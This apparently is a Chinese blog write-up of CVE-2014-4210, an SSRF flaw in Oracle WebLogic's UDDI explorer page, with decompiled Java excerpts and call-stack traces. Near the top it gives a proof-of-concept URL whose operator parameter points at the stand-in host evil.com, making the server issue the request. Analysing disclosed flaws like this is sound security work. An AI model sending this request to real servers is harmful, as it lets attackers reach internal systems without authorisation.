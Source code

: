 ```yaml
---
title: "CVE-2014-4210"
author: ["4shen0ne"]
lastmod: 2024-12-14T14:26:19+08:00
tags: ["java"]
draft: false
---
```


## 影响范围 {#影响范围}

-   Oracle WebLogic Server 10.0.2.0
-   Oracle WebLogic Server 10.3.6.0


## POC {#poc}

```text
http://localhost:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&btnSubmit=Search&operator=http://evil.com
```


## 漏洞分析 {#漏洞分析}

该漏洞为 SSRF 漏洞，输入点在 `/uddiexplorer/SearchPublicRegistries.jsp` 页面的
operator 参数中。

{{< figure src="/ox-hugo/_20240530_182544screenshot.png" >}}

看一下 SearchPublicRegistries.jsp 对该参数的处理：

{{< figure src="/ox-hugo/_20240530_182626screenshot.png" >}}

从请求中拿到 operator 没做什么处理便传入 search 对象，然后调用了它的 getResponse
方法，那么跟进一下 search 对象的类 `com.bea.uddiexplorer.Search`

首先是 setOperator 方法：

```java
public void setOperator(String var1) {
    try {
        this.m_operator = var1;
        this.setUDDIInquiryURL(var1);
    } catch (Exception var4) {
        String var3 = (new UDDITextFormatter()).uddiExplorerSearchOpException();
        this.log.error(var3, var4);
    }
}
public void setUDDIInquiryURL(String var1) {
    this.UDDI_INQUIRY_URL = var1;
    this.m_inquiry.setURL(this.UDDI_INQUIRY_URL);
}
```

用我们控制的 operator 参数值设置了 m_operator 和 m_inquiry 属性

然后跟进 getResponse 方法：

```java
public Object getResponse(String var1, String var2, String var3, String var4, String var5) throws UDDIException, XML_SoapException {
    Object var6 = null;
    if (var1.equalsIgnoreCase("name")) {
        var6 = this.findBusinessListByName(var2);
    } else if (var1.equalsIgnoreCase("key")) {
        ...}
    ...}
private BusinessList findBusinessListByName(String var1) throws UDDIException, XML_SoapException {
    BusinessList var2 = null;
    FindBusiness var3 = new FindBusiness();
    var3.setName(new Name(var1));
    var2 = this.m_inquiry.findBusiness(var3);
    return var2;
}
```

当 var1 的值是 name 时，则会调用 m_inquiry 属性的 findBusiness 方法，var1 我们可
以通过传入 rdoSearch 来控制，var2 我们也需要通过 txtSearchname 参数来设置一个值

跟进 findBusiness 方法：

{{< figure src="/ox-hugo/_20240530_182849screenshot.png" >}}

此时 sendMessage 的参数已经被污染了，在这个方法中会使用 `BindingFactory#create` 方
法构建一个 Binding 实例用来发送请求，而 create 方法的参数受到 sendMessage 的参数
影响。关键代码如下：

{{< figure src="/ox-hugo/_20240530_182926screenshot.png" >}}

构建 Binding 实例的过程：

```nil
setBindingInfo:63, AbstractBinding (weblogic.webservice.binding)
init:118, Http11ClientBinding (weblogic.webservice.binding.http11)
create:50, BindingFactory (weblogic.webservice.binding)
sendMessage:78, UDDISoapMessage (weblogic.uddi.client.service)
findBusiness:101, Inquiry (weblogic.uddi.client.service)
findBusinessListByName:325, Search (com.bea.uddiexplorer)
getResponse:172, Search (com.bea.uddiexplorer)
...
```

这时 Binding 的 url 属性已经被我们控制，继续执行 `UDDISoapMessage#sendMessage` 触
发 SSRF 请求：

```nil
openConnection:33, Handler (weblogic.net.http)
openConnection:971, URL (java.net)
send:384, Http11ClientBinding (weblogic.webservice.binding.http11)
sendMessage:80, UDDISoapMessage (weblogic.uddi.client.service)
...
```

{{< figure src="/ox-hugo/_20240530_183017screenshot.png" >}}
